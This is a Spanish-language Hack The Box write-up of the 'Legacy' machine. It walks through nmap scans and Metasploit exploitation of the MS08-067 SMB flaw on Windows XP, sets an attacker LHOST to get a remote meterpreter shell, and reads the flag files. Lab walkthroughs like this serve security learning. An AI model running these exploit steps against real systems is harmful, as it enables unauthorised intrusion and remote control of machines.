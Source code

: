 ```yaml
---
title: Legacy HTB Writeup
published: 2024-08-15
description: 'En esta Maquina de dificultad Easy Explotamos un Windows XP, que contiene una version muy vieja de smb vulnerable a MS08-067.'
image: 'image.png'
tags: [Easy]
category: 'HackTheBox'
draft: false 
---
```


# Skills

- ms08_067_netapi Explotation
- Metasploit

# Information Gathering

Empezamos nuestro escaneo de siempre con nmap para ver que puertos estan abiertos en la maquina victima:

```bash
sudo nmap -sS -p- --open --min-rate 2000 -Pn -n 10.10.10.4 -oG nmap

PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

Ahora vamos a ver las versiones de estos puertos:

```bash
nmap -p135,139,445 -sCV 10.10.10.4 

PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2024-08-21T06:04:57+03:00
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:94:6f:ac (VMware)
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 5d00h27m39s, deviation: 2h07m16s, median: 4d22h57m39s
```

Interesante, encontramos una version muy vieja de smb, esto es colador de vulnerabildades, aparte tambien es un windows XP

# Explotation

Vamos a ejecutar el msfconsole.

> Que es msfconsole?

> Es una herramienta central en el Metasploit Framework que proporciona una interfaz poderosa y flexible para realizar una amplia variedad de tareas relacionadas con la explotación de vulnerabilidades y la evaluación de la seguridad.

```bash
msfconsole
```

ahora vamos a buscar por la vulnerabilidad que nos interesa, que en este caso es ms08_067_netapi.

```bash
search ms08_067_netapi
```

Seleccionamos el idioma de la maquina victima, English.

![alt text](image-1.png)

```bash
use 8
```

Ponemos la ip de la maquina victima:

```bash
set RHOSTS 10.10.10.4
```

Tambien colocamos nuestra ip:

```bash
set LHOST 10.10.14.11
```

Ejecutamos el exploit:

```bash
exploit
```

Y ya tenemos una shell como root.

Pero lo que recibimos en un principio es el meterpreter

> Que es el meterpreter?

> Meterpreter es una herramienta poderosa para la administración y el control remoto de sistemas comprometidos, ofreciendo una amplia gama de funcionalidades para los profesionales de la seguridad.

```bash
shell
```

## Get flags

En esta ruta esta la user.txt.

```cms
C:\WINDOWS>type "C:\Documents and Settings\john\Desktop\user.txt"
```

y En esta ruta esta la root.txt.

```cmd
C:\WINDOWS>type "C:\Documents and Settings\Administrator\Desktop\root.txt"
```

# Summary
Aqui te dejo algunos recursos que te pueden ayudar a aprender mas a fondo sobre esta vulnerabilidad:

- [MS08-067 - Como arreglarlo](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067)
- [MS08-067](https://support.microsoft.com/es-es/topic/ms08-067-una-vulnerabilidad-en-el-servicio-servidor-podr%C3%ADa-permitir-la-ejecuci%C3%B3n-remota-de-c%C3%B3digo-ac7878fc-be69-7143-472d-2507a179cd15)
- [Script en Python - MS08-067](https://www.exploit-db.com/exploits/40279)